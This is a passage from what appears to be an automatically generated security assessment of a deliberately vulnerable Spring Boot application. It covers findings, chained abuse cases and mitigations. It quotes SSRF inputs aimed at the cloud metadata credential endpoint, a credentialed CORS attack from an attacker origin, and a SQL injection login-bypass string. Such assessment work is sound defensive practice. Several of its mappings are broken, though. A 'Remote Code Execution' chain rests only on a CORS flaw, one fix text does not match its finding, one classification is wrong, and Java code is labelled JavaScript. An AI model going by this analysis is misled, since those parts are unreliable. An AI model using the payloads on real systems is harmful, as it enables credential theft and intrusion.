An attacker accesses the AWS EC2 instance metadata service with http://169.254.169.254/latest/meta-data/iam/security-credentials/ or probes internal services (http://localhost:8080/actuator/env) to retrieve application secrets and IAM credentials. Unauthenticated probing of internal services and cloud metadata endpoints, enabling IAM credential theft and internal network mapping.

**Evidence:** ✓ verified - IntegrationController:23 calls `restTemplate.getForObject(url, String.class)` where url is the raw @RequestParam value with no validation.

```java
// src/main/java/com/example/appsecverificationtarget/serverside/IntegrationController.java:23
    @GetMapping("/fetch")
    public Map<String, Object> fetch(@RequestParam String url) {
        String body = restTemplate.getForObject(url, String.class);
        String response = body == null ? "" : body.substring(0, Math.min(body.length(), 2000));
        return Map.of(
```

**Fix:** Validate the URL scheme + host against an explicit allow-list before issuing outbound requests → ◕ [M-036](#m-036) — Validate and allowlist outbound request targets (`IntegrationController.java:23`)

**Classification:** Server-Side Request Forgery · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-039"></a><a id="f-039"></a>
#### F-039 · CORS Policy Reflects Any HTTP/HTTPS Origin with Allow-Credentials:true

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/cors/CorsPolicyFilter.java:31`

**Issue:** `CorsPolicyFilter.isTrustedOrigin()` at line 31 checks only `origin != null && origin.startsWith("http")` - any origin starting with `http://` or `https://` is trusted. The filter then sets `Access-Control-Allow-Origin: <reflected_origin>` and `Access-Control-Allow-Credentials: true`.

An attacker hosts a malicious page at https://evil.attacker.com and uses JavaScript's fetch API with `credentials: 'include'` to make authenticated requests to /api/cors/* endpoints on behalf of a logged-in victim, reading the session-authenticated responses. Any website on the internet can make credential-bearing cross-origin requests to /api/cors/* endpoints as any logged-in user, violating the Same-Origin Policy.

**Evidence:** ✓ verified - CorsPolicyFilter:31-33 trusts any origin where `origin.startsWith("http")` and sets Allow-Credentials:true; CorsConfig:13 registers this filter for /api/cors/* at highest precedence.

**Fix:** Replace the wildcard CORS origin with an explicit allow-list → ◕ [M-037](#m-037) — Restrict CORS to trusted origins (`CorsPolicyFilter.java:31`)

**Classification:** Broken Access Control · [CWE-942](https://cwe.mitre.org/data/definitions/942.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-040"></a><a id="f-040"></a>
#### F-040 · SQLite Credential Database Baked Into Docker Image via COPY . /app

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - Legacy SQLite Auth Backend  ·  **Location:** `runtime/legacy-auth.sqlite`

**Issue:** Dockerfile line 18 copies the entire build context - including runtime/legacy-auth.sqlite - into the image with `COPY . /app`.

Line 26 then sets `chmod -R 777 /app /app/runtime`, making the database file world-writable inside the container. The SQLite credential file (including all plaintext passwords) is extractable from any copy of the Docker image, including CI artifacts, registry pulls, and host snapshots.

**Evidence:** ✓ verified - Dockerfile line 18 COPY . /app bakes runtime/legacy-auth.sqlite (confirmed by comment 'runtime/ credential stores and legacy SQLite auth db') into the image; line 26 sets 777 permissions on /app/runtime.

**Fix:** ◕ [M-038](#m-038) — Stop storing sensitive data in cleartext (`legacy-auth.sqlite`)

**Classification:** Cryptographic Failures · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-041"></a><a id="f-041"></a>
#### F-041 · Passwords Stored in Plaintext Without Hashing in Legacy SQLite Store

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:100`

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Issue:** The `save()` method stores the password parameter directly into the legacy_users table with no hashing, salting, or encoding. Both the register path (POST /api/legacy-sqlite/register) and the startup seeding block (lines 37-39) use this method.

The `authenticate()` method performs a WHERE username=? Any read-access path to the SQLite data - file system, API, or container layer - yields immediately usable plaintext credentials for all accounts.

**Evidence:** ✓ verified - `save()` at line 100 passes the password string directly to `PreparedStatement.setString()` with no transformation, and the unauthenticated /users endpoint confirms passwords are stored in their original form.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◕ [M-039](#m-039) — Hash passwords with a strong, salted algorithm (`LegacySqliteUserStore.java:100`)

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-042"></a><a id="f-042"></a>
#### F-042 · No Rate Limiting on Authentication Endpoints Enables Credential Brute Force

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:50`

**Issue:** The POST /login endpoint (Spring Security form login) and GET /api/legacy-sqlite/login-raw accept unlimited requests with no lockout, rate limit, or CAPTCHA. With the trivially guessable default credential admin/password and dictionary words, an attacker can attempt thousands of login combinations per second.

There is no in-process throttle, no distributed counter, and no lockout event logged beyond the Spring Security failure URL redirect. An attacker can enumerate valid usernames (via differential timing or the 'exists' error in RegistrationController:47) and brute-force passwords without triggering any lockout.

**Evidence:** ✓ verified - SecurityConfig:50-55 configures form login with no rate-limiting middleware; grep for 'rateLimit|throttle|RateLimiter' in the codebase returns zero hits across all src/ files.

```java
// src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:50
                        .anyRequest().authenticated()
                )
                .formLogin(form -> form
                        .loginPage("/login")
                        .defaultSuccessUrl("/dashboard", true)
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ◕ [M-040](#m-040) — Rate-limit and lock out repeated authentication attempts (`SecurityConfig.java:50`)

**Classification:** Broken Authentication · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-043"></a><a id="f-043"></a>
#### F-043 · XXE Exponential Entity Expansion Enables Memory Exhaustion

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/serverside/XmlPreviewController.java:22`

**Issue:** XmlPreviewController uses a DocumentBuilderFactory with no entity expansion limits (no `setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true)`) and no timeout. A billion-laughs-style XML payload creates exponentially nested entity references; parsing it consumes exponentially growing memory before the parser returns any result.

The public endpoint POST /api/xml/preview allows unauthenticated attackers to send this payload and exhaust JVM heap, causing OutOfMemoryError and crashing the application process. A single unauthenticated HTTP request with a billion-laughs payload causes JVM OutOfMemoryError and application crash.

**Evidence:** ✓ verified - XmlPreviewController:22 creates DocumentBuilderFactory with default settings; no entity expansion limit, no SAX entity count cap, and no timeout are configured.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ◕ [M-041](#m-041) — Bound parser and decompression resource limits (`XmlPreviewController.java:22`)

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-044"></a><a id="f-044"></a>
#### F-044 · Application Container Runs as Root Without USER Directive (Dockerfile)

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Docker Container Image  ·  **Location:** `Dockerfile:31`

**Issue:** The Dockerfile has no USER instruction. The ENTRYPOINT at line 31 therefore executes the JVM process as UID 0 (root) inside the container.

If an attacker exploits a vulnerability in the Spring Boot application or its dependencies (e.g. deserialization, SSRF to the Docker socket, or a directory traversal), the compromised process runs with full root privileges inside the container. Application compromise immediately yields root inside the container, maximizing blast radius for container escape or lateral movement.

**Evidence:** ✓ verified - No USER instruction appears anywhere in the Dockerfile; the ENTRYPOINT at line 31 runs the JVM as root, and `chmod -R 777` at line 26 removes all filesystem protection from the application directory.

```dockerfile
// Dockerfile:31
EXPOSE 8080

ENTRYPOINT ["java", "-jar", "/app/target/appsec-verification-target-0.0.1-SNAPSHOT.jar"]
```

**Fix:** ◕ [M-042](#m-042) — Drop unnecessary privileges in build and runtime (`Dockerfile:31`)

**Classification:** Broken Access Control · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-045"></a><a id="f-045"></a>
#### F-045 · Insecure Direct Object Reference

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** Multiple locations (3)

**Weakness:** [W-002](#w-002) - Authorization is implemented route by route

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → spring-app · Authorization: Object references are not checked against the authenticated principal before access, breaking the authorization leg.

**Instances (3):** `src/main/java/com/example/appsecverificationtarget/accesscontrol/OrderAccessController.java:24`, `src/main/java/com/example/appsecverificationtarget/accesscontrol/UserAccessController.java:22`, `src/main/java/com/example/appsecverificationtarget/projectsearch/ProjectSearchController.java:29`

**Issue:** `OrderAccessController.get()` at line 24 calls `customerOrderRepository.findById(id)` and returns the order if it exists, with no check that the authenticated principal owns the order. Any authenticated user can enumerate order IDs starting from 100 (the seeded first ID) to read every order in the database, including orders belonging to other users, their item names, amounts, statuses, and customer comments.

The secure variant (`getOwned()`) exists at line 31 but is not the default GET route. Any authenticated user can read all orders in the system by iterating numeric IDs, breaking user data isolation.

**Evidence:** ✓ verified - OrderAccessController:24 calls `findById()` with no `authentication.getName()` comparison; the ownershipcheck method at line 31-44 is a separate route /{id}/owned that users are not forced to use.

```java
// src/main/java/com/example/appsecverificationtarget/accesscontrol/OrderAccessController.java:24

    @GetMapping("/{id}")
    public ResponseEntity<OrderSummary> get(@PathVariable Long id) {
        return customerOrderRepository.findById(id)
                .map(OrderSummary::from)
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◕ [M-043](#m-043) — Enforce object-level (ownership) authorization (`OrderAccessController.java:24`)

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-046"></a><a id="f-046"></a>
#### F-046 · Unauthenticated Admin Report Endpoint Discloses Aggregate User and Order Data

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:34`

**Weakness:** [W-002](#w-002) - Authorization is implemented route by route

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → spring-app · Authentication: GET /api/admin/report is placed in `permitAll()`, violating the authentication leg of the external HTTP trust boundary.

**Issue:** SecurityConfig:34 explicitly lists `GET /api/admin/report` as `permitAll()`, yet `AdminReportController.report()` at line 35 returns a summary including user count, order count, document count, and tenant status breakdowns via ReportLookupDao. No authentication or role check is performed.

An unauthenticated attacker calls GET /api/admin/report to enumerate the size of the user base and order volume, and to confirm the tenant identifier. Business intelligence data (user count, order count, document count, tenant status breakdown) is accessible to unauthenticated callers, aiding reconnaissance.

**Evidence:** ✓ verified - SecurityConfig:34 has `.requestMatchers(HttpMethod.GET, "/api/admin/report").permitAll()` with no subsequent role check in AdminReportController.

```java
// src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:34
                        .requestMatchers("/h2-console/**").permitAll()
                        .requestMatchers("/actuator/**").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/admin/report").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/orders/search", "/api/orders/status-feed").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/documents/search", "/api/documents/safe-search", "/api/documents/public-feed").permitAll()
```

**Fix:** ◕ [M-044](#m-044) — Enforce server-side authorization on every endpoint (`SecurityConfig.java:34`)

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

### 🟡 Medium (6)

<a id="t-047"></a><a id="f-047"></a>
#### F-047 · Insecure ECB cipher mode Java src/main/java/com/example/appsecverificationtarge…

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:17`

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Issue:** ECB reveals patterns in the plaintext and provides no integrity.

**Evidence:** ✓ verified

**Fix:** Replace the broken algorithm with a vetted modern primitive (AES-GCM / Argon2id / Ed25519) → ◑ [M-045](#m-045) — Replace the weak cryptographic algorithm (`LegacyCryptoService.java:17`)

**Classification:** Cryptographic Failures · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-048"></a><a id="f-048"></a>
#### F-048 · Broken hash primitive Java src/main/java/com/example/appsecverificationtarget/c…

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyPasswordService.java:15`

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Issue:** MD5/SHA-1 are collision-broken; for passwords they are trivially cracked, for integrity of attacker-influenced data they are forgeable.

**Evidence:** ✓ verified

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◑ [M-046](#m-046) — Use modern cryptographic hash and KDF algorithms (`LegacyPasswordService.java:15`)

**Classification:** Cryptographic Failures · [CWE-328](https://cwe.mitre.org/data/definitions/328.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-049"></a><a id="f-049"></a>
#### F-049 · Mutable Base Image Tag Without Digest Pin (Dockerfile)

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - Docker Container Image  ·  **Location:** `Dockerfile:4`

**Trust boundary gap:** [tb-2](#tb-2) 🌐 External - external → container-image · Validation: The FROM tag is mutable; without a digest pin the build pipeline cannot guarantee the fetched base image is the expected artifact, violating the boundary assumption that all base images are pinned to.

**Issue:** `FROM openjdk:17-slim` line 4 uses a mutable Docker Hub tag. Docker resolves the tag to a different image manifest on every build whenever the upstream maintainer publishes an update.

A compromised or silently updated base image introduces malicious or vulnerable binaries into every container derived from this Dockerfile.

**Evidence:** ✓ verified - Dockerfile:4 references `openjdk:17-slim` by mutable tag; no `@sha256:` digest appears, so every build may pull a different image without the build pipeline detecting the substitution.

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ◑ [M-047](#m-047) — Pin the container base image to an immutable digest (`Dockerfile:4`)

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/)

<a id="t-050"></a><a id="f-050"></a>
#### F-050 · No Audit Logging on Authentication and Registration Endpoints

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:26`

**Issue:** Neither LegacySqliteAuthController nor LegacySqliteUserStore logs any authentication event - successful logins, failed attempts, or new registrations. An attacker conducting a brute-force or credential-stuffing campaign against GET /api/legacy-sqlite/login-raw or POST /api/legacy-sqlite/login leaves no trace in application logs.

Similarly, SQL injection exploitation or mass account enumeration via GET /api/legacy-sqlite/users cannot be detected or reconstructed forensically after the fact because no request-level security event is recorded.

**Evidence:** ✓ verified

**Fix:** ◑ [M-048](#m-048) — Add security audit logging (`LegacySqliteAuthController.java:26`)

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2025](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/)

<a id="t-051"></a><a id="f-051"></a>
#### F-051 · Dockerfile USER directive (non-root)

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - Docker Container Image  ·  **Location:** `Dockerfile:1`

**Issue:** Dockerfile USER directive (non-root): Containers running as root expand container-escape blast radius.

**Evidence:** ◌ ambiguous

**Fix:** ◑ [M-049](#m-049) — Drop unnecessary privileges in build and runtime (`Dockerfile:1`)

**Classification:** Error Information Disclosure · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-052"></a><a id="f-052"></a>
#### F-052 · No Password Minimum Length Policy on User Registration (RegistrationController)

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/RegistrationController.java:41`

**Issue:** `RegistrationController.register()` at line 41 accepts any value for the `password` @RequestParam with no minimum length, complexity, or maximum-length validation. An attacker can register an account with a 1-character password.

Users can register with trivially guessable passwords; without rate limiting, account enumeration and brute force are viable attacks against registered accounts.

**Evidence:** ✓ verified - RegistrationController:41 has `@RequestParam String password` with no @Size or explicit validation; no password-policy bean is wired in SecurityConfig.

**Fix:** Enforce a length and complexity policy and reject reused / breached passwords → ◑ [M-050](#m-050) — Enforce minimum password length and BCrypt input byte limit validation in Regis… (`RegistrationController.java:41`)

**Classification:** Broken Authentication · [CWE-521](https://cwe.mitre.org/data/definitions/521.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

---

## 9. Abuse Cases

_Abuse cases describe end-to-end attack scenarios that chain individual findings into an exploitation path. Each case is **mandatory** - defined in the org profile / plugin library and evaluated against every repository. Every chain step references a finding from [§8 Findings Register](#8-findings-register); each step is code-confirmed against the repository and the chain verdict is folded deterministically from the per-step results, never rated by hand._

| # | Scenario | Actor | Combined Risk | Verdict |
|--------|------------------------------------|------------------|-------------|--------------|
| [AC-T-002](#ac-t-002) | Bulk Data Exfiltration via Broken Object<br/>Authorization | authenticated-user | 🔴 Critical | ⚠ Fully viable |
| [AC-T-003](#ac-t-003) | Privilege Escalation to Admin via JWT<br/>Algorithm Confusion | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-005](#ac-t-005) | Authentication Bypass via Exposed Secret<br/>Material | external-attacker | 🔴 Critical | ? Inconclusive |
| [AC-T-006](#ac-t-006) | Remote Code Execution via Server-Side<br/>Injection | external-attacker | 🔴 Critical | ⚠ Fully viable |

_Verdict: ⚠ Fully viable - no effective control blocks this chain · ◐ Partially blocked - at least one step has a compensating control but the chain is not fully closed · ✓ Mitigated - chain is broken at a verified step · ? Inconclusive - could not be verified end-to-end._

---

<a id="ac-t-002"></a>
### AC-T-002 — Bulk Data Exfiltration via Broken Object Authorization

> **Source:** mandatory · **Actor:** authenticated-user - authenticated low-privilege user · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Enumerate and exfiltrate other users' records, then escalate own permissions via unguarded mass assignment.

**Prerequisite:** Attacker holds a valid, non-privileged user account.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-045](#f-045) — Insecure Direct Object Reference (`OrderAccessController.java:24`) | Attacker enumerates and retrieves records<br/>for arbitrary object IDs; no ownership<br/>comparison is performed. |
| 2 | 🔴 [F-010](#f-010) — Mass Assignment Privilege Escalation via PUT /api/profile/me (ProfileController) (`ProfileController.java:44`) | Update endpoint persists an unfiltered `role`<br/>(or equivalent) field supplied in the<br/>request body. |

**Why combined risk exceeds individual ratings**

The ownership gap exposes every record, and the mass-assignment gap lets the same low-privilege actor self-elevate - together they turn a single compromised account into full tenant data access and role escalation.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ◕ [M-043](#m-043) — Enforce object-level (ownership) authorization (**P2**): remediating 🟠 [F-045](#f-045) — Insecure Direct Object Reference breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ● [M-010](#m-010) — Allowlist client-controlled fields (**P1**): remediating 🔴 [F-010](#f-010) — Mass Assignment Privilege Escalation via PUT /api/profile/me (ProfileController) breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

<a id="ac-t-003"></a>
### AC-T-003 — Privilege Escalation to Admin via JWT Algorithm Confusion

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge an admin-role JWT without knowledge of the signing secret.

**Prerequisite:** Attacker can obtain any valid JWT issued by the system (e.g. by registering a free account).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-012](#f-012) — Unsigned JWT Accepted by LegacyJwtVerifier (algorithm none) (`LegacyJwtVerifier.java:15`) | Verifier accepts attacker-chosen `alg` (e.g.<br/>`none` or HMAC-with-public-key), allowing<br/>token re-signing without the secret. |
| 2 | _no matching finding_<br/>`src/main/java/com/example/appsecverificationtarget/authentication/LegacyAdminAuditController.java:40` | Forged `role: admin` claim is accepted as<br/>authoritative because the role is not<br/>re-fetched from the database per request. |

**Why combined risk exceeds individual ratings**

Algorithm confusion alone yields a forgeable token; trusting the in-token role claim turns that forgery into instant admin access - neither gap is Critical in isolation, but the chain is a full authentication bypass.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ◕ [M-012](#m-012) — Enforce JWT signature and algorithm verification (**P2**): remediating 🟠 [F-012](#f-012) — Unsigned JWT Accepted by LegacyJwtVerifier (algorithm none) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

<a id="ac-t-005"></a>
### AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ? Inconclusive

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-005](#f-005) — Hardcoded Secrets in Dockerfile ENV Layers (Dockerfile) (`Dockerfile:12`) | A private key, signing secret, or credential<br/>file is committed to the source repository<br/>or served without authentication. |
| 2 | 🟠 [F-014](#f-014) — Forged Session Token via Base64-Encoded User ID (HomegrownSessionService) (`HomegrownSessionService.java:21`) | The exposed key/secret is the same one the<br/>server trusts, so a token signed with it (or<br/>the leaked credential) is accepted as<br/>authentic. |

**Why combined risk exceeds individual ratings**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever required.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ● [M-005](#m-005) — Move secrets to a managed secret store (**P1**): remediating 🔴 [F-005](#f-005) — Hardcoded Secrets in Dockerfile ENV Layers (Dockerfile) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ◕ [M-014](#m-014) — Replace Base64 userId tokens with HMAC-signed tokens (**P2**): remediating 🟠 [F-014](#f-014) — Forged Session Token via Base64-Encoded User ID (HomegrownSessionService) breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

<a id="ac-t-006"></a>
### AC-T-006 — Remote Code Execution via Server-Side Injection

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Execute arbitrary code in the application process.

**Prerequisite:** An input reaches a server-side interpreter / template / eval.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-039](#f-039) — CORS Policy Reflects Any HTTP/HTTPS Origin with Allow-Credentials:true (`CorsPolicyFilter.java:31`) | Attacker-controlled input is passed to `eval`,<br/>a server-side template engine, an unsafe<br/>sandbox, or an unsafe deserializer. |

**Why combined risk exceeds individual ratings**

A single injection into a server-side interpreter yields code execution in the application process - the highest-impact outcome, granting full filesystem and network access from one unauthenticated request.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ◕ [M-037](#m-037) — Restrict CORS to trusted origins (**P2**): remediating 🟠 [F-039](#f-039) — CORS Policy Reflects Any HTTP/HTTPS Origin with Allow-Credentials:true breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### Generic catalog — evaluated, not applicable

_These common abuse-case scenarios from the standard library were checked against this codebase and did not apply. They are listed so the assessment's abuse-case coverage is explicit, not silent._

| Scenario | Source | Why not applicable |
|------------------------------------|---------|----------------------|
| Account Takeover via Stored XSS + Token<br/>Hijacking | mandatory | required signal(s) absent:<br/>has_client_storage |
| Privilege Escalation via Mass-Assignment on<br/>Registration | mandatory | required signal(s) absent: has_registration |

---

## 10. Mitigation Register

Each mitigation block lists the findings it **Addresses**, the CWEs it **Prevents**, and the **Priority** (P1 = before deployment, P2 = current sprint, P3 = next quarter, P4 = backlog). The **Why** / **How** / **Verification** fields are populated only when authored; if a field is omitted, refer to the linked finding's *Evidence* line for file:line context and to the threat-category description in [§8 Findings Register](#8-findings-register) for the underlying weakness.

**Mitigations index:**<br/>● [M-001](#m-001) — Use parameterized database queries<br/>● [M-002](#m-002) — Enforce JWT signature and algorithm verification<br/>● [M-003](#m-003) — Eliminate shell invocation in ToolController.lookup and validate input…<br/>● [M-004](#m-004) — Use parameterized database queries<br/>● [M-005](#m-005) — Move secrets to a managed secret store<br/>● [M-006](#m-006) — Enforce server-side authorization on every endpoint<br/>● [M-007](#m-007) — Stop exposing internal information to clients<br/>● [M-008](#m-008) — Require authentication on every exposed endpoint<br/>● [M-009](#m-009) — Enforce server-side authorization on every endpoint<br/>● [M-010](#m-010) — Allowlist client-controlled fields<br/>◕ [M-011](#m-011) — Set a strong random H2 datasource password loaded from environment…<br/>◕ [M-012](#m-012) — Enforce JWT signature and algorithm verification<br/>◕ [M-013](#m-013) — Remove hardcoded seed credentials and require externally configured…<br/>◕ [M-014](#m-014) — Replace Base64 userId tokens with HMAC-signed tokens<br/>◕ [M-015](#m-015) — Move secrets to a managed secret store<br/>◕ [M-016](#m-016) — Avoid the shell; pass a fixed argv array with validated, allow-listed…<br/>◕ [M-017](#m-017) — Replace the weak cryptographic algorithm<br/>◕ [M-018](#m-018) — Use cryptographically secure random values<br/>◕ [M-019](#m-019) — Pin third-party dependencies to immutable versions<br/>◕ [M-020](#m-020) — Add framing and clickjacking protections<br/>◕ [M-021](#m-021) — Add anti-CSRF protection to state-changing requests<br/>◕ [M-022](#m-022) — Add anti-CSRF protection to state-changing requests<br/>◕ [M-023](#m-023) — Validate file type and sanitize filename<br/>◕ [M-024](#m-024) — Disable XML external entity (XXE) resolution<br/>◕ [M-025](#m-025) — Add security audit logging<br/>◕ [M-026](#m-026) — Remove password parameter from CredentialLoggingFilter log statement<br/>◕ [M-027](#m-027) — Add security audit logging<br/>◕ [M-028](#m-028) — Pin the container base image to an immutable digest<br/>◕ [M-029](#m-029) — Pin the container base image to an immutable digest<br/>◕ [M-030](#m-030) — Stop storing sensitive data in cleartext<br/>◕ [M-031](#m-031) — Constrain file paths to a safe base directory<br/>◕ [M-032](#m-032) — Stop exposing internal information to clients<br/>◕ [M-033](#m-033) — Move cryptographic keys to a managed secret store<br/>◕ [M-034](#m-034) — Replace the weak cryptographic algorithm<br/>◕ [M-035](#m-035) — Hash passwords with a strong, salted algorithm<br/>◕ [M-036](#m-036) — Validate and allowlist outbound request targets<br/>◕ [M-037](#m-037) — Restrict CORS to trusted origins<br/>◕ [M-038](#m-038) — Stop storing sensitive data in cleartext<br/>◕ [M-039](#m-039) — Hash passwords with a strong, salted algorithm<br/>◕ [M-040](#m-040) — Rate-limit and lock out repeated authentication attempts<br/>◕ [M-041](#m-041) — Bound parser and decompression resource limits<br/>◕ [M-042](#m-042) — Drop unnecessary privileges in build and runtime<br/>◕ [M-043](#m-043) — Enforce object-level (ownership) authorization<br/>◕ [M-044](#m-044) — Enforce server-side authorization on every endpoint<br/>◑ [M-045](#m-045) — Replace the weak cryptographic algorithm<br/>◑ [M-046](#m-046) — Use modern cryptographic hash and KDF algorithms<br/>◑ [M-047](#m-047) — Pin the container base image to an immutable digest<br/>◑ [M-048](#m-048) — Add security audit logging<br/>◑ [M-049](#m-049) — Drop unnecessary privileges in build and runtime<br/>◑ [M-050](#m-050) — Enforce minimum password length and BCrypt input byte limit validation…

### P1 — Immediate

<a id="m-001"></a>
#### M-001 — Use parameterized database queries

**Addresses:**

- 🔴 [F-001](#f-001) — SQL Injection Authentication Bypass in authenticateRaw (`LegacySqliteUserStore.java:64`)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:64`

**How:**

1. Replace the string-concatenated SQL in `authenticateRaw()` with a PreparedStatement identical to the one already used in `authenticate()` - or remove `authenticateRaw()` entirely and route `GET /login-raw` through the parameterized `authenticate()` method.
2. Remove or disable the `GET /api/legacy-sqlite/login-raw` endpoint from LegacySqliteAuthController; its raw-SQL path has no legitimate production use.
3. Add an integration test that verifies login-raw with username=`' OR '1'='1` returns HTTP 401.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:64`: it applies **Use parameterized database queries**. The ordered steps above remain authoritative._

```javascript
// Before (LegacySqliteUserStore.java:64) — VULNERABLE:
String sql = "select id, username, password, role from legacy_users where username = '" + username + "' and password = '" + password + "'";

